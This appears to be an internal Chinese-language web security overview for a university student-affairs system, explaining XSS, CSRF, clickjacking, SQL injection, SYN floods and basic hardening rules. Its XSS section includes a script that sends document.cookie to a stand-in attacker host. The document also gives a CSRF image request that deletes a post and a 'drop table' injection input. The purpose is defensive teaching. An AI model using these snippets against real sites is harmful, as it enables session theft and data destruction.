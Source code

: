 #安全

##引言

互联网时代的数据安全与个人隐私受到前所未有的挑战，各种新奇的攻击技术层出不穷。安全问题分为两种，一种是正在运行的业务具有被破坏的风险，另一种是用户信息的泄露。我们握有用户的重要信息，务必要保证这些信息的安全。

安全是一个持续的过程。

## 同源策略与跨源资源共享

浏览器对于DOM、Cookie、XMLHttpRequest(Ajax)使用同源策略，但是script、img、iframe、link等标签均可以跨域获取资源。另外HTML 5可以实现XMLHttpRequest的跨域请求（CSP）。

##XSS攻击

###实施方案

恶意js代码

<div><script>干了很多坏事</script></div>

1. 劫持并修改页面

通过劫持路由器等方案，修改页面并向其中加入恶意js代码。

2. 网站漏洞

例如写一篇包含恶意js代码的文字存入学工系统，之后所有浏览该段文字的用户，都会在浏览器中执行该段代码。

###利用方式

1. 劫持cookie

恶意代码如下

var img = document.createElement("img");

img.src = "http://www.坏蛋.公司/log?" + escape(document.cookie);

document.body.appendChild(img);

这条请求会在远程服务器上留下一条带有cookie信息的记录。如果将Cookie设置为HttpOnly，可以防止被读取。

2. 在用户页面执行get或者post请求

例如我们只需要让学工管理员看待带有如下恶意代码的页面，即可删掉一篇帖子

var img = document.createElement("img");

img.src = "http://学工接口地址?m=delete&id=帖子的id"
document.body.appendChild(img);

类似的可以构造post请求。

3. XSS钓鱼

利用恶意js代码伪造一个登陆界面。

4. 识别用户浏览器、是否有ActiveX（可能会让用户机器中木马）等

5. 通过window.name对象在网页不同的tab间传递信息

## 跨站点请求访问

管理员在登录学工系统后，访问了另一个页面，其中包含一条连接。

`<img src="http://学工接口地址?m=delete&id=帖子的id" />`

则帖子被删除。

## 点击劫持

通过劫持路由器等方案，将一个层覆盖到原有的网页上。

## 注入攻击

var city = Reuqest.form("city");

var sql = "select * from order where ciry='" + city + "'";

此时，如果用户输入的是

beijing; drop table xxx;

则数据表被删除。

## 访问控制

有些访问没有进行权限控制，用户猜到URL即可看到内容。

## DDos

伪造大量的源IP地址，分别向服务器发送大量的SYN包，此时服务器收不到回应并等待一个SYN time，如果伪造的包数量非常多，则服务器会消耗过多的资源在这些连接上，无法服务于正常的用户。

## 盗链

## 业务安全

产品中使用了不正确的逻辑，例如只允许单点登录且只允许在客户端修改密码，则盗号者可以不停的登录，不给被盗者修改密码的机会。

## TSL/SSL

可以保证数据的完整性、机密性。EV SSL证书更佳。


## 法律法规

// TODO 高校相关产品是否有哪些信息可以披露的法律法规。

## 数据消密

## 安全规章

白名单机制、最小权限机制

1. 只开发用于服务的端口，不得使用如将SSH端口由22改为2222的方式来规避；

2. 所有服务器软件从Ubuntu内置源下载，不得使用第三方包；

3. 所有的输入都需要过滤，使用白名单策略，不应该包含<script>标签，更应该注意SQL过滤；

4. 部分输出应该过滤，将字符转为HtmlEncode和JavaScriptEncode;

`& --> &amp;`
